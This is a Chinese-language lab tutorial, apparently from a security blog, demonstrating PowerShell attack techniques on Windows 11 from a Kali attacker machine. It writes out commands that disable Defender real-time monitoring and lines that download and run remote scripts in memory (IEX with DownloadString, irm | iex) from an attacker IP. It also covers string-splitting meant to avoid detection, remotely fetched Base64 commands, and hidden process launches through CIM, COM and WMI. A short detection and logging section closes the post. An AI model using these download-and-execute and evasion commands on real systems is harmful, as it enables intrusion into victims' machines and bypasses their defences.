





PowerShell 對大部分人而言，可能只是個強化版的 CMD，  
但在真實的資安事件中，超過 40% 的攻擊都使用了 PowerShell  
不過 Windows 11 對 PowerShell 的限制越來越多（像是 WMIC 已經被移除），  
但總會能有新的方法會不斷出現，  
這篇就一起來看看 Windows 11 上能有效使用的 PowerShell 技巧吧！

## 環境準備

* * *

今天的實作會需要兩台機器：

```
Attacker Machine: Kali
Victim Machine: Windows 11

```

### Attacker Machine (Kali)：

```bash
# 建立測試 payload
mkdir ~/ps_demo && cd ~/ps_demo

cat > payload.ps1 << 'EOF'
Write-Host "================================" -ForegroundColor Green
Write-Host " PowerShell Payload Executed!" -ForegroundColor Yellow
Write-Host "================================" -ForegroundColor Green
Write-Host "User: $env:USERNAME" -ForegroundColor Cyan
Write-Host "Time: $(Get-Date)" -ForegroundColor Cyan
Start-Process calc.exe
"Executed at $(Get-Date)" | Out-File "$env:TEMP\ps_test.txt"
EOF

# 建立 Base64 payload
echo 'Write-Host "Decoded!" -ForegroundColor Red; calc.exe' | base64 > encoded.txt

# 啟動 Web Server
python3 -m http.server 8080

```

### Victim Machine (Windows 11)：

```powershell
# 建立測試環境
mkdir C:\TestLab; cd C:\TestLab

# 暫時關閉防護（測試環境）
Add-MpPreference -ExclusionPath "C:\TestLab"
Set-MpPreference -DisableRealtimeMonitoring $true
Set-ExecutionPolicy Bypass -Scope Process -Force

```

## Windows 11 實測：三個仍然有效的技巧

* * *

### 技巧一：直接記憶體執行（最經典）

```powershell
# 設定攻擊者 IP
$attacker = "<kali_ip>"

# 方法1：IEX + WebClient（經典組合）
IEX (New-Object Net.WebClient).DownloadString("http://${attacker}:8080/payload.ps1")

# 方法2：Invoke-RestMethod（更現代）
irm "http://${attacker}:8080/payload.ps1" | IEX

# 方法3：分段執行避免偵測
$a='IEX '; $b='(New-Object '; $c='Net.WebClient).'; $d='DownloadString('
$url = "http://${attacker}:8080/payload.ps1"
$e="`"$url`")"
Invoke-Expression ($a+$b+$c+$d+$e)

```



你會看到計算機彈出，但**沒有任何 .ps1 檔案寫入磁碟**！

### 技巧二：Base64 編碼執行

```powershell
# 建立編碼命令
$cmd = "Write-Host 'Encoded!' -ForegroundColor Red; calc.exe"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)

# 執行編碼指令
powershell.exe -EncodedCommand $encoded

# 或從遠端下載編碼內容
$b64 = (New-Object Net.WebClient).DownloadString("http://${attacker}:8080/encoded.txt")
$decoded = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($b64))
IEX $decoded

```



### 技巧三：WMIC 的替代方案（Windows 11）

由於 WMIC 被移除，攻擊者改用：

```powershell
# 方法1：CIM（新的替代方案）
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = "powershell.exe -c `"Write-Host 'CIM Execution!'`""
}

# 方法2：COM 物件
$shell = New-Object -ComObject WScript.Shell
$shell.Run("powershell -c `"calc.exe`"", 0, $false)

# 方法3：Start-Process
Start-Process powershell -ArgumentList "-c `"irm http://${attacker}:8080/payload.ps1 | iex`"" -WindowStyle Hidden

# 方法4：Invoke-WmiMethod
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe"

```

  
  


## 偵測＆防禦建議

* * *

### 檢查痕跡

```powershell
# 最近建立的檔案
Get-ChildItem "$env:TEMP","$env:APPDATA" -Recurse -File -ErrorAction SilentlyContinue |
    Where-Object {$_.CreationTime -gt (Get-Date).AddHours(-1)}

# PowerShell 歷史
Get-Content (Get-PSReadlineOption).HistorySavePath | Select-String "DownloadString|IEX"

```

### 啟用日誌

```powershell
# 必須啟用 Script Block Logging
$regPath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
New-Item -Path $regPath -Force
Set-ItemProperty -Path $regPath -Name "EnableScriptBlockLogging" -Value 1

```

### 關鍵偵測指標

*   `IEX` + `DownloadString` 組合
*   `-EncodedCommand` 參數
*   PowerShell 從 Office 或瀏覽器啟動
*   PowerShell 對外連線

### Windows 11 的改變

*   **WMIC 已移除** 改用 CIM
*   **權限變嚴格** 需要更多繞過技巧
*   **日誌更詳細** 更容易被偵測

## 總結！

* * *

PowerShell 在 Windows 11 上雖然受到更多限制，但仍然是攻擊者的首選工具：

*   **記憶體執行** - 不留檔案痕跡
*   **多種方法** - 總有辦法繞過
*   **內建工具** - 無法完全禁用

實測發現：

1.  **IEX + DownloadString 仍有效** - 最危險的組合
2.  **Base64 編碼仍可用** - 簡單但有效
3.  **CIM 取代 WMIC** - 攻擊仍舊可執行

p.s WMIC 的移除是 Windows 11 的重要改變，但已經有替代方案（CIMWMI Method）